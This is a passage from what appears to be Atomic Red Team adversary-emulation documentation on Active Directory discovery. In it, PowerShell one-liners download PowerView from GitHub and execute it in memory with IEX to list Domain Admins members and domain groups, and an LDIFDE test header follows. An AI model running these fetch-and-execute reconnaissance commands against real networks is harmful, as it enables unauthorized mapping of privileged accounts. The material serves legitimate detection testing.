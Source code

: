 #### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainGroupMember "Domain Admins"
```






<br/>
<br/>

## Atomic Test #13 - Get-DomainGroup with PowerView
Utilizing PowerView, run Get-DomainGroup to identify the domain groups. Upon execution, Groups within the domain will be listed.

**Supported Platforms:** Windows


**auto_generated_guid:** 5a8a181c-2c8e-478d-a943-549305a01230






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainGroup -verbose
```






<br/>
<br/>

## Atomic Test #14 - Active Directory Enumeration with LDIFDE
Output information from Active Directory to a specified file. [Ldifde](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc731033(v=ws.11)) is a CLI tool for creating, modifying and deleting directory objects.
The test is derived from the CISA Report on Voly Typhoon. Reference: https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF

**Supported Platforms:** Windows


**auto_generated_guid:** 22cf8cb9-adb1-4e8c-80ca-7c723dfc8784



